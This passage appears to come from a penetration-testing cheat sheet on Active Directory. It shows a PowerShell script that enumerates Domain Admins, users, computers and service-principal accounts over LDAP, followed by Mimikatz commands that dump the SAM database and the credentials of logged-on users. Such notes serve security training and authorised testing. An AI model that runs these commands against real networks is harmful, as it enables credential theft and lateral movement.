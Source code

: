 ```powershell
$Searcher.SearchRoot = $objDomain

# ###########################
# UNCOMMENT FILTERS AS NEEDED
# ###########################

# filter by Domain Admin users
$Searcher.filter="memberof=CN=Domain Admins,CN=Users,DC=corp,DC=com"

# filter by all Users in domain
# $Searcher.filter="samAccountType=805306368"

# filter by all Groups in domain
# $Searcher.filter="objectcategory=group"

# filter by all Computers in domain
# $Searcher.filter="objectcategory=computer"

# filter by all Computers AND operating sys is Windows 10
# $Searcher.filter="(&(objectcategory=computer)(operatingsystem=*Windows 10*))"

# filter by SPN
$Searcher.filter="serviceprincipalname=*http*"

# invoke
$Result = $Searcher.FindAll()

# print each object and its properties
Foreach($obj in $Result) {
        Foreach($prop in $obj.Properties){$prop}
        Write-Host "------------------------"
}
```

## AD Authentication

### Dumping NTLM Hashes

NTLM authentication uses a challenge-response model, where a nonce/challenge encrypted using the user's NTLM hash is validated by the Domain Controller.

Dumping LM/NTLM hashes with Mimikatz
* [Full Mimikatz Guide](https://adsecurity.org/?page_id=1821#SEKURLSALogonPasswords)
* Requires local admin rights.
```powershell
# escalate security token to SYSTEM integrity
mimikatz > privilege::debug
mimikatz > token::elevate

# dump creds
mimikatz > lsadump::sam              # dump contents of SAM db in current host
mimikatz > sekurlsa::logonpasswords  # dump creds of logged-on users
```
